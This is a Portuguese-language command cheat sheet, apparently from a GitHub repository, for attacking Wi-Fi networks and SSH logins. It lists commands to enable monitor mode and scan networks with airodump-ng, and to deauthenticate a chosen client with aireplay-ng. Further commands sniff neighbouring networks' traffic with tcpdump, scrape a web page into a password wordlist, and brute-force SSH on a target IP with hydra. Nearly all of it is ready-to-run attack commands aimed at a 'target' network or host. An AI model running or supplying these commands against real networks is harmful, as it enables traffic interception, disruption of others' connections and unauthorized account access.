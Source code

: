 # Comandos

COMANDOS PARA DETECTAR E ACIONAR O MODO MONITOR

Caso o adaptador não esteja funcionando, digite: Win + R > services.msc e reinicie todos os serviços da VMWare.

```
ifconfig                                #para ver se temos uma interface wlan0 conectada;
ipconfig                                #aqui conseguimos ver se a interface esta devidamente conectada e em qual modo esta configurada (geralmente esta em modo Gerenciamento ou Mnaged)
iwconfig <interface>                    #apenas para termos uma visao mais limpa, com a interface especifica selecionada
```

Etapa I&#x20;

```
sudo airmon-ng check                    #averiguar se existe algum processo que pode atrapalhar o modo monitor
sudo airmon-ng check kill               #para matar os processos que podem interferir o adaptador em modo monitor
sudo airmon-ng start <interface>        #aqui sim habilitamos o modo monitor, no meu caso precisei rodar este comando 2x, tente rodar com ele apenas uma vez antes de tentar fazer 2x
ifconfig                                #verificar se nossa rede criada apareceu
iwconfig <interface_criada>             #verificar se esta em modo monitor, no meu caso a interface era a mesma (wlan0) e so mudou que precisei setar uma porta para ler
```

### o comando abaixo talvez nao precise ser inserido, apenas em casos especificos

```
iwconfig <interface> channel <canal>    #aqui eu setei o canal para tornar a leitura nele viavel
```

### aqui tudo volta ao normal

```
sudo airodump-ng <interface>            #aqui ele detecta as redes, traz detalhes como: endereço do AP (access point), dados transmitidos entre a rede, o canal em que ele se encontra, o tipo de criptografia e autorizaçao, o nome SSID e dispositivos conectados ao AP. 
```

\#Encontrar a linha onde está a rede alvo usando o SSID e copiar&#x20;

```
sudo airodump-ng <canal> -w <arquivo_output> -d <BSSID> <interface> #averiguando como está a rede alvo (dispositivos conectados)
aireplay-ng --deauth 0 -a <BSSID> -c <STATION> <interface> #desautenticando um host específico
tcpdump -i <interface>                  #para começar a ler o trafego das redes vizinhas
tcpdump -vv -nn -i <interface>          #para começar a ler o trafego das redes vizinhas com informaçoes mais precisas
```

\#Etapa Ia&#x20;

```
curl <website> | sed 's/[^a-zA-Z]/ /g' | tr 'A-Z' 'a-z\n' | grep '[a-z]' | sort -u > /tmp/wordlist.txt
					#comando para acessar uma webpage, selecionar conteúdo em texto presente na página, formatar em forma de texto pulando sempre uma linha após o texto, organizar alfabeticamente e salvar em um arquivo temporário de nome wordlist.txt
```

Etapa II&#x20;

```
hydra -l <usuario> -P /tmp/wordlist.txt -V -f 4 <ip_alvo> ssh
					#comando para tentar bruteforce com nome de usuário dado, usando uma wordlist específica em um ipv4 dado usando protocolo ssh (teoricamente porta 22, mas pode ter sido alterada)
```
